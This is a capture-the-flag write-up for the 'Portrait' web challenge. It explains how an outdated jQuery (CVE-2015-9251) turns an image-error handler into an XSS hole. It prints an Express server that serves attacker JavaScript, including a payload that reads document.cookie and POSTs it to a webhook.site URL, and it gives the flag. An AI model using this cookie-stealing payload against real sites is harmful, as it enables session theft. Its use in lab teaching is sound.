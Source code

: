 ```yaml
---
layout: post
current: post
cover:  assets/squ1rrel/kyleburgess2025/portrait/cover.webp
navigation: True
title: "Portrait"
date: 2025-04-06 11:59:00
tags: [squ1rrel, web]
class: post-template
subclass: 'post'
author: kyleburgess2025
---
```


It's like DeviantArt, but with a report button to keep it less Deviant.

Welcome to Portrait, the final challenge I wrote and my first XSS challenge. The idea for this challenge came from a super cool Canvas vuln I read about recently. This XSS vulnerability in the Canvas course software was found by Andrew Healey and can be read about [here](https://github.com/andrew-healey/canvas-lms-vuln). The vulnerability comes from an outdated version of JQuery being used - namely, `1.7.2`, which has [this vulnerability](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9251). The name of this challenge, Portrait, is a cheeky reference to the Canvas vulnerability.

# The Problem

Upon registering for an account, we are brought to a gallery where we can create new portraits, providing a name and a source URL for the image. The gallery also displays our previous portraits as a title and an image combination.

![image of gallery page](/assets/squ1rrel/kyleburgess2025/portrait/gallery.webp)
*if you're looking for a gallery curator, MoMA, hmu*

There is also a `/report` endpoint where you can give the admin bot a link to a gallery to visit; the flag will be stored in the cookies of the admin bot. The admin bot will only visit other pages on the Portrait website. Basically, we need to make a portrait that will cause the cookies of the admin bot to be leaked to us when the admin bot visits.

# Diving In

Let's take a look at the suspicious parts of the code.

First, at the top of `static/gallery.html`, we have the following:

```html
<script type="text/javascript" src="https://code.jquery.com/jquery-1.8.1.min.js"></script>
```

Sweet, an outdated version of JQuery! A quick Google of JQuery 1.8.1 leads us back to the [CVE](https://www.cvedetails.com/cve/CVE-2015-9251/) I mentioned earlier. Now, let's see how we can exploit it...

```js
$(document).ready(function () {
    const username = new URLSearchParams(window.location.search).get("username");
    $.ajax({
        url: "/api/portraits/" + username,
        type: "GET",
        success: function (data) {
            data.forEach((portrait) => {
                const col = $("<div>").addClass("col-md-4 mb-4");
                const card = $("<div>").addClass("card shadow-sm");
                const img = $("<img>").addClass("card-img-top").attr("src", portrait.source).attr("alt", portrait.name);
                const cardBody = $("<div>").addClass("card-body text-center");
                const title = $("<h5>").addClass("card-title").text(portrait.name);

                img.on("error", (e) => {
                    $.get(e.currentTarget.src).fail((response) => {
                        if (response.status === 403) {
                            $(e.target).attr("src", "https://cdn.pixabay.com/photo/2021/08/03/06/14/lock-6518557_1280.png");
                        } else {
                            $(e.target).attr(
                                "src",
                                "https://cdn.pixabay.com/photo/2024/02/12/16/05/siguniang-mountain-8568913_1280.jpg"
                            );
                        }
                    });
                });

                cardBody.append(title);
                card.append(img).append(cardBody);
                col.append(card);
                $("#portraitsContainer").append(col);
            });
        },
    });
    // snip
})
```

Ok, first off, we have `$.ajax` being called without the `dataType` option, which is a red flag. However, on success, the data retrieved from the URL is put into an `img` source, so any scripts returned won't be run. Let's look instead at the error handling. If an `img` element has an error, a request is made to the image source and the error code is checked to see which placeholder image should be used.

However, the JQuery CVE we discussed before mentioned that if `dataType` is not specified and Javascript is returned, the script will automatically be run on the client's computer. Thus, if we can deploy a server that serves Javascript instead of an image and make it the source for one of our portraits, we should get XSS! Let's try:

```js
const app = require("express")();
app.use(require("cors")());

const payload = `
(function() {
    alert("XSS");
})();
`;

app.get("/image", (req, res) =>
  const isImage = req.headers.accept.includes("image");
  res.writeHead(200, { "Content-Type": "application/javascript" });
  res.end(payload);
);

app.listen(8081);
```

Using you favorite quick-deploy service (I used `cloudflared`, since it doesn't have an interstitial that checks if you're human), we can get a public URL that we can use as the image source. Let's try this out:

![image of gallery page with xss](/assets/squ1rrel/kyleburgess2025/portrait/xss.webp)

Beautiful. Now, let's change the payload:

```js
const app = require("express")();
app.use(require("cors")());

const payload = `
(function() {
    const cookies = document.cookie;
    const url = "https://webhook.site/91c39d9c-76da-4ced-9624-96700b8ad703";

    fetch(url, {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: "cookies=" + encodeURIComponent(cookies)
    });
})();
`

app.get("/image", (req, res) =>
  const isImage = req.headers.accept.includes("image");
  res.writeHead(200, { "Content-Type": "application/javascript" });
  res.end(payload);
);

app.listen(8081);
```

After deploying with `cloudflared` and reporting the link to my account (`http://{CHALLENGE_IP}/gallery?username={ACCOUNT_NAME}`), our Webhook gets pinged!

![image of a Webhook request](/assets/squ1rrel/kyleburgess2025/portrait/webhook.webp)

Flag: `squ1rrel{unc_s747us_jqu3ry_l0wk3y_take_two_new_flag_check_this_out_guys}`
